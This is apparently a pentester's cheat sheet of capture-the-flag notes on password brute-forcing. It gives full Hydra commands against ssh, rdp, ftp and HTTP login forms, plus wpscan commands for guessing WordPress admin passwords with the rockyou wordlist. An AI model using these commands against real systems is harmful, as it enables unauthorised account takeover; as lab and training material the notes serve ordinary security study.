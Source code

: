 # Attacks

## username list

remember there's a username list on `/usr/share/wordlists/dirb/others/names.txt`

## Hydra

### Basics

#### http-post

A standard attack looks like: 

`hydra -l ${user} -P /usr/share/wordlists/rockyou.txt ${RHOST} ${mode}`
modes can be eg. `ssh`, `rdp`,`vnc`, `ftp` or `http[s]-post-form`.

An example of an attack made towards a wordpress site eg. looked like this:
```
hydra $RHOST -l Elliot -P fsocity.dic http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^:F=The password you entered for the username"
```
(For this particular box, we were given a file `fsocity.dic` to use for fuzzing)

#### http-get

If a website itself has password protection when you access it, note that it is looking in the Authorization header looking for something on the form `admin:password` (base64 encoded).
This can be attacked with hydra with the following command:
```
hydra $RHOST -l admin -P /usr/share/wordlists/rockyou.txt http-get / 
```

## WordPress

If you find a wordpress site, it's worth checking if you can pwn the admin login with:

```
wpscan -U admin --url $RHOST/${PATH} -P /usr/share/wordlists/rockyou.txt
```

An example of an equivalent `wpscan` command for the above hydra command, is:

```
wpscan -U Elliot --url $RHOST/wp-login -P fsocity.dic 
```
